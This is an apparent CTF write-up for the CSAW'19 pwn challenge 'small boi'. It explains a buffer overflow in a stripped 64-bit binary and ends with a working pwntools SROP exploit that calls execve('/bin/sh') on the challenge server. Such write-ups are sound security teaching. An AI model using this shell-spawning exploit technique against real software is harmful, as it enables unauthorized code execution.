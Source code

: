 small boi
===========
**Category**: pwn  **Points**: 100

Challenge Description
-------------
We are given one challenge binary small_boi

Solution (unsolved)
--------------

Firstly some examination, we can see it's a stripped 64-bit binary, NX-enabled so no stack execution.

![examination](examination.jpg)

By executing the binary it just waits for an input, after an input is given it exits. By giving it a large input it resulted in a segfault, which suggests it's a buffer overflow challenge. We can see we are able to gain control of `rip`

![ret](ret.jpg)

Howeer, this time there is no libc provided. So the plan now is to build a ROP chain manually in order to make a systeml call to execute `/bin/sh`. To make the system call we need the following register values

``` bash
rax = 0x3b # https://filippo.io/linux-syscall-table/ is good for searching
rdi = "/bin/sh"
rip = <syscall>
```

We can control the register values by utilising the `pop|ret` gadgets. For example, to write a value to `rax` we could append `p64(<address_of_pop_ret>) + p64(0x3b)` in our payload and `rax` would be set as 0x3b. Now let's analyze if we could control all the register values needed to make the execve system call to call /bin/sh:

We can find the ROP gadgets by using `ROPgadget` for pop|ret. However as shown in the screenshot below, we can only control `rax` and `rbp`. This means that we have no way of control `rdi`, however this is essential to make the system call.
![ropgadget](ropgadget.jpg)

This is where I got up to. Now the following will describe the solution of the challenge.


Continued Solution
--------------
According to another writeup (https://github.com/KEERRO/ctf-writeups/tree/master/CSAW%20CTF'19%20QUALS/SMALL%20BOI), we can see that another special ROP technique called SROP can be used in this challenge.

![ropgadgets](ropgadgets.jpg)

We can see the `mov eax, 0xf ; syscall` which makes a sigreturn system call. By utilising this gadget we can get a clean frame and control all the register values. More details can also be found at (https://0x00sec.org/t/srop-signals-you-say/2890).

Now the final exploit:

```python
from pwn import *

context.clear(arch="amd64")
elf = ELF("./small_boi")
#r = process("./small_boi")
r = remote('pwn.chal.csaw.io', 1002)

# attach gdb
#gdb.attach(r.pid, """c""")

sh_addr = next(elf.search('/bin/sh'))
log.info("sh_addr @ %s" % hex(sh_addr))
# useful gadgets
#poprbpret = 0x400188
#popraxret = 0x40018a
syscall = 0x400185
sigret = 0x400180

# set up frame to call execve('/bin/sh',0,0)
frame = SigreturnFrame(kernel="amd64")
frame.rax = 0x3b # syscall execve
frame.rdi = sh_addr # /bin/sh address
frame.rip = syscall # syscall gadget

p = 'A'*40
p += p64(sigret) # Sigreturn syscall
p += str(frame)

r.clean()
r.sendline(p)

r.interactive()
```

Executing this we can get the flag: `flag{sigrop_pop_pop_pop}`

![flag](flag.jpg)






